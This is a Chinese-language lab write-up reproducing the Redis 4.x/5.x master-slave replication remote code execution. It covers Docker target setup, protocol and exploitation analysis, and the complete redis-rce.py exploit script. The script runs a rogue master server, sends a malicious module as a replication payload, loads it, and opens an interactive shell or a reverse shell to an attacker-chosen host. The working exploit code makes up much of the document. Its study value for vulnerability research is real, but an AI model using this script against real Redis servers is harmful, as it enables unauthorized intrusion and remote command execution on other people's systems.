


# 漏洞复现与分析——Redis基于主从复制的RCE 4.X/5.X

## 获取docker image 并运行


```shell
sudo docker search redis5.0
sudo docker pull damonevking/redis5.0
mkdir -p ~/data/redis/data
```
从官网下载redis5.0.tar.gz, 找到redis.conf 修改配置文件，关键是修改`bind 127.0.0.1` 为`bind 0.0.0.0`，使之可以非本地访问。


```
cp ~/Download/redis.conf  ~/data/redis/

sudo docker run -p 6379:6379 --name redis_m -v ~/data/redis/redis.conf:/etc/redis/redis.conf  -v ~/data/redis/data:/data -d damonevking/redis5.0 redis-server /etc/redis/redis.conf --appendonly yes
```

运行后，可进入docker观察：
```
leo@ubuntu:~$ sudo docker ps -q
eb76732ee6ed
leo@ubuntu:~$ sudo docker exec -it eb76732ee6ed /bin/bash
root@eb76732ee6ed:/data# ls
appendonly.aof
root@eb76732ee6ed:/data# redis-cli
127.0.0.1:6379> set k1 v1
OK
127.0.0.1:6379> k1
(error) ERR unknown command `k1`, with args beginning with: 
127.0.0.1:6379> get k1
"v1"
127.0.0.1:6379> 

```
在攻击端，可以运行`nc ip:6379` ，任意输入命令，得到下列类似报错，则说明已经可以连接了。

```
leo@kali:~$ nc 10.10.10.128 6379
set
-ERR wrong number of arguments for 'set' command
```

参数解释：

 -p 6379:6379:把容器内的6379端口映射到宿主机6379端口
 -v /data/redis/redis.conf:/etc/redis/redis.conf：把宿主机配置好的redis.conf放到容器内的这个位置中
 -v /data/redis/data:/data：把redis持久化的数据在宿主机内显示，做数据备份
 redis-server /etc/redis/redis.conf：这个是关键配置，让redis不是无配置启动，而是按照这个redis.conf的配置启动
 –appendonly yes：redis启动后数据持久化
 
## exploit 过程

下载漏洞利用脚本:

`git clone https://github.com/Ridter/redis-rce.git`   //

注意，这里少一个.so的文件，到 https://github.com/n0b0dyCN/redis-rogue-server 下载并放到和redis-rce.py同一目录下，然后执行如下命令：

`python3 redis-rce.py -r 目标ip -L 攻击ip -f exp.so` 之后得到可交互shell。

具体使用可以看redis-rce里的readme。


## 原理
> 来自 pavel toporkov ， kaspersky lab

### redis
Redis is an open source, in-memory data structure store, used as a database, cache and message broker. 

Redis is usually used as:
- Session/Caching (serialized!) data storage
- PUB/SUB messaging service
- Message broker for asynchronous task queues.

Default port - 6379/tcp

### challenge
Given:
- SSRF without response content retrieval
- Zero knowledge about database structure (key names, pub/sub channels, etc)

Find:
- Remote Code Execution

### known techniques
CVE-2015-4335/DSA-3279 - Redis Lua Sandbox Escape
• https://redislabs.com/blog/cve-2015-4335dsa-3279-redis-lua-sandbox-escape/
• http://benmmurphy.github.io/blog/2015/06/04/redis-eval-lua-sandbox-escape/

SLAVEOF (https://redis.io/commands/slaveof)
PRO: We can change/insert any data to database and thus 
manipulate application logic
CON: We need to know about database data structure and 
how application processes data from it
CON: It’s possible to crash the application


### protocol analysis

redis-server support 2 protocols：
- 明文（空格分开）的，例如：`set KEYNAME VALUE\n`
- 自定义的，例如：`*3\r\n$3\r\nSET\r\n$7\r\nkeyname\r\n$5\r\nvalue\r\n`

抓包分析可以找到：
```
2a 33 0d 0a 24 33 0d 0a 73 65 74 0d 0a 24 33 0d | *3..$3..set..$3.
0a 61 62 63 0d 0a 24 34 0d 0a 31 32 33 34 0d 0a | .abc..$4..1234..
2b 4f 4b 0d 0a | +OK.. 
2a 32 0d 0a 24 33 0d 0a 67 65 74 0d 0a 24 31 0d | *2..$3..get..$1.
0a 61 62 63 0d 0a | .abc..
24 34 0d 0a 31 32 33 34 0d 0a | $4..1234..
```

第1，2，4行是requests，第3，6行是响应。

其中有：


当进行主从通信时，如下图：


说明：
- 从设备首先发起连接请求
- 从设备尝试部分或全部的同步
- 主设备通过发送一个命令流到从设备，保持从设备更新，，为了复制任何来自主数据集的改变。

例如：
```
(master)> set zxcv qwert
2a 32 0d 0a 24 36 0d 0a 53 45 4c 45 43 54 0d 0a | *2..$6..SELECT..
24 31 0d 0a 30 0d 0a 2a 33 0d 0a 24 33 0d 0a 73 | $1..0..*3..$3..s
65 74 0d 0a 24 34 0d 0a 7a 78 63 76 0d 0a 24 35 | et..$4..zxcv..$5
0d 0a 71 77 65 72 74 0d 0a | ..qwert..
(slave)> get zxcv
"qwert"

```
### 生成 rogue server
- `ping` 测试是否alive
  - 响应`+PONG`
- `REPLCONF` 交换主从间的复制（replication）信息
  - 响应`+OK`
- `PSYNC/SYNC <replid>` 同步slave设备状态与master 
  - 响应 `+CONTINUE <replid> 0`
- 现在，我们可以发送任何命令到slave。

### data retrieval

```c
//networking.c
int prepareClientToWrite(client *c) {
    ...
    if(c->flags & (CLIENT_LUA|CLIENT_MODULE)){
        return C_OK;
        ...
    }
        
    if ((c->flags & CLIENT_MASTER) && !(c->flags & CLIENT_MASTER_FORCE_REPLY))
        return C_ERR;
}
int prepareClientToWrite(client *c) {
    ...
    if (c->flags & (CLIENT_LUA|CLIENT_MODULE))
    return C_OK;
    ...
    if ((c->flags & CLIENT_MASTER) &&
    !(c->flags & CLIENT_MASTER_FORCE_REPLY))
    return C_ERR;
```

### pwn

在上面 create rogue server 第3步，`PSYNC/SYNC <replid>` ，需要异步读取SYNC payload 。

```c
/* Asynchronously read the SYNC payload we receive from a master */
void readSyncBulkPayload(aeEventLoop *el, int fd, void *privdata, int
mask) {
 ...
 if (rename(server.repl_transfer_tmpfile,server.rdb_filename) == -1) {
 ...
 }
 ...
 if (rdbLoad(server.rdb_filename,&rsi) != C_OK) {
 serverLog(LL_WARNING,"Failed trying to load the MASTER 
synchronization DB from disk");
```

We can write arbitrary data to database file.

"Redis modules make possible to extend Redis functionality using external modules, implementing new Redis commands at a speed and with features similar to what can be done inside the core itself."

MODULE LOAD /path/to/mymodule.so

#### exploitation steps
1. Make the server to be a slave of our rogue server
2. Read dbfilename (or set your own) value using previous data retrieval technique and drop connection `CONFIG GET dbfilename` or `CONFIG SET dbfilename pwn`
3. On new connection initiate FULLRESYNC from master and send compiled module as payload `+FULLRESYNC <Z*40> 1\r\n$<len>\r\n<pld>`
4. Load module (dbfilename) using SSRF `MODULE LOAD ./dump.rdb or MODULE LOAD ./pwn`


## 实现

### redis-rce.py

```python

#!/usr/bin/env python
# coding:utf-8
import socket
import os
import sys
import re
from time import sleep
import argparse
from six.moves import input

CLRF = "\r\n"
LOGO = R"""
█▄▄▄▄ ▄███▄   ██▄   ▄█    ▄▄▄▄▄       █▄▄▄▄ ▄█▄    ▄███▄   
█  ▄▀ █▀   ▀  █  █  ██   █     ▀▄     █  ▄▀ █▀ ▀▄  █▀   ▀  
█▀▀▌  ██▄▄    █   █ ██ ▄  ▀▀▀▀▄       █▀▀▌  █   ▀  ██▄▄    
█  █  █▄   ▄▀ █  █  ▐█  ▀▄▄▄▄▀        █  █  █▄  ▄▀ █▄   ▄▀ 
  █   ▀███▀   ███▀   ▐                  █   ▀███▀  ▀███▀   
 ▀                                     ▀                   

"""

def mk_cmd_arr(arr):
    """Create the command line with arr
    """
    cmd = ""
    cmd += "*" + str(len(arr))
    for arg in arr:
        cmd += CLRF + "$" + str(len(arg))
        cmd += CLRF + arg
    cmd += "\r\n"
    return cmd


def mk_cmd(raw_cmd):
    return mk_cmd_arr(raw_cmd.split(" "))


def din(sock, cnt):
    """通过socket接收信息。
    """
    msg = sock.recv(cnt)
    if verbose:
        if len(msg) < 300:
            print("\033[1;34;40m[->]\033[0m {}".format(msg))
        else:
            print("\033[1;34;40m[->]\033[0m {}......{}".format(msg[:80], msg[-80:]))
    if sys.version_info < (3, 0):
        res = re.sub(r'[^\x00-\x7f]', r'', msg)
    else:
        res = re.sub(b'[^\x00-\x7f]', b'', msg)
    return res.decode()


def dout(sock, msg):
    """通过socket发送信息。
    """
    if type(msg) != bytes:
        msg = msg.encode()
    sock.send(msg)
    if verbose:
        if sys.version_info < (3, 0):
            msg = repr(msg)
        if len(msg) < 300:
            print("\033[1;32;40m[<-]\033[0m {}".format(msg))
        else:
            print("\033[1;32;40m[<-]\033[0m {}......{}".format(msg[:80], msg[-80:]))


def decode_shell_result(s):
    return "\n".join(s.split("\r\n")[1:-1])


class Remote:
    def __init__(self, rhost, rport):
        self._host = rhost
        self._port = rport
        self._sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        self._sock.connect((self._host, self._port))


    def send(self, msg):
        dout(self._sock, msg)

    def recv(self, cnt=65535):
        return din(self._sock, cnt)

    def do(self, cmd):
        self.send(mk_cmd(cmd))
        buf = self.recv()
        return buf

    def close(self):
        self._sock.close()

    def shell_cmd(self, cmd):
        self.send(mk_cmd_arr(['system.exec', "{}".format(cmd)]))
        buf = self.recv()
        return buf

    def reverse_shell(self, addr, port):
        self.send(mk_cmd("system.rev {} {}".format(addr, port)))


class RogueServer:
    def __init__(self, lhost, lport, remote, file):
        self._host = lhost
        self._port = lport
        self._remote = remote
        self._file = file
        self._sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        self._sock.bind(('0.0.0.0', self._port))
        self._sock.settimeout(15)
        self._sock.listen(10)

    def handle(self, data):
        resp = ""
        phase = 0
        if data.find("PING") > -1:
            resp = "+PONG" + CLRF
            phase = 1
        elif data.find("REPLCONF") > -1:
            resp = "+OK" + CLRF
            phase = 2
        elif data.find("PSYNC") > -1 or data.find("SYNC") > -1:
            resp = "+FULLRESYNC " + "Z" * 40 + " 0" + CLRF
            resp += "$" + str(len(payload)) + CLRF
            resp = resp.encode()
            resp += payload + CLRF.encode()
            phase = 3
        return resp, phase

    def close(self):
        self._sock.close()

    def exp(self):
        try:
            cli, addr = self._sock.accept()
            print("\033[92m[+]\033[0m Accepted connection from {}:{}".format(addr[0], addr[1]))
            while True:
                data = din(cli, 1024)
                if len(data) == 0:
                    break
                resp, phase = self.handle(data)
                dout(cli, resp)
                if phase == 3:
                    break
        except Exception as e:
            print("\033[1;31;m[-]\033[0m Error: {}, exit".format(e))
            cleanup(self._remote, self._file)
            exit(0)
        except KeyboardInterrupt:
            print("[-] Exit..")
            exit(0)


def reverse(remote):
    print("[*] Open reverse shell...")
    addr = input("[*] Reverse server address: ")
    port = input("[*] Reverse server port: ")
    remote.reverse_shell(addr, port)
    print("\033[92m[+]\033[0m Reverse shell payload sent.")
    print("[*] Check at {}:{}".format(addr, port))


def interact(remote):
    print("\033[92m[+]\033[0m Interactive shell open , use \"exit\" to exit...")
    try:
        while True:
            cmd = input("$ ")
            cmd = cmd.strip()
            if cmd == "exit":
                return
            r = remote.shell_cmd(cmd)
            if 'unknown command' in r:
                print("\033[1;31;m[-]\033[0m Error:{} , check your module!".format(r.strip()))
                return
            for l in decode_shell_result(r).split("\n"):
                if l:
                    print(l)
    except KeyboardInterrupt:
        return

def cleanup(remote, expfile):
    # clean up
    print("[*] Clean up..")
    remote.do("CONFIG SET dbfilename dump.rdb")
    remote.shell_cmd("rm ./{}".format(expfile))
    remote.do("MODULE UNLOAD system")
    remote.close()

def printback(remote):
    back = remote._sock.getpeername()
    print("\033[92m[+]\033[0m Accepted connection from {}:{}".format(back[0], back[1]))


def runserver(rhost, rport, lhost, lport):
    # get expolit filename
    expfile = os.path.basename(filename)
    #start exploit
    try:
        remote = Remote(rhost, rport)
        if auth:
            check = remote.do("AUTH {}".format(auth))
            if "invalid password" in check:
                print("\033[1;31;m[-]\033[0m Wrong password !")
                return
        else:
            info = remote.do("INFO")
            if "NOAUTH" in info:
                print("\033[1;31;m[-]\033[0m Need password.")
                return


        print("[*] Sending SLAVEOF command to server")
        remote.do("SLAVEOF {} {}".format(lhost, lport))
        printback(remote)
        print("[*] Setting filename")
        remote.do("CONFIG SET dbfilename {}".format(expfile))
        printback(remote)
        sleep(2)
        print("[*] Start listening on {}:{}".format(lhost, lport))
        rogue = RogueServer(lhost, lport, remote, expfile)
        print("[*] Tring to run payload")
        rogue.exp()
        sleep(2)
        remote.do("MODULE LOAD ./{}".format(expfile))
        remote.do("SLAVEOF NO ONE")
        print("[*] Closing rogue server...\n")
        rogue.close()
        # Operations here
        choice = input("\033[92m[+]\033[0m What do u want ? [i]nteractive shell or [r]everse shell or [e]xit: ")
        if choice.startswith("i"):
            interact(remote)
        elif choice.startswith("r"):
            reverse(remote)
        elif choice.startswith("e"):
            pass

        cleanup(remote, expfile)

        remote.close()
    except Exception as e:
        print("\033[1;31;m[-]\033[0m Error found : {} \n[*] Exit..".format(e))

def main():
    parser = argparse.ArgumentParser(description='Redis 4.x/5.x RCE with RedisModules')
    parser.add_argument("-r", "--rhost", dest="rhost", type=str, help="target host", required=True)
    parser.add_argument("-p", "--rport", dest="rport", type=int,
                        help="target redis port, default 6379", default=6379)
    parser.add_argument("-L", "--lhost", dest="lhost", type=str,
                        help="rogue server ip", required=True)
    parser.add_argument("-P", "--lport", dest="lport", type=int,
                        help="rogue server listen port, default 21000", default=21000)
    parser.add_argument("-f", "--file", type=str, help="RedisModules to load, default exp.so", default='exp_lin.so')
    parser.add_argument("-a", "--auth", dest="auth", type=str, help="redis password")
    parser.add_argument("-v", "--verbose", action="store_true", help="show more info", default=False)
    options = parser.parse_args()
    # runserver("127.0.0.1", 6379, "127.0.0.1", 21000)

    print("[*] Connecting to  {}:{}...".format(options.rhost, options.rport))
    global payload, verbose, filename, auth
    auth = options.auth
    filename = options.file
    verbose = options.verbose
    if os.path.exists(filename) == False:
        print("\033[1;31;m[-]\033[0m Where you module? ")
        exit(0)
    payload = open(filename, "rb").read()
    runserver(options.rhost, options.rport, options.lhost, options.lport)


if __name__ == '__main__':
    print(LOGO)
    main()

```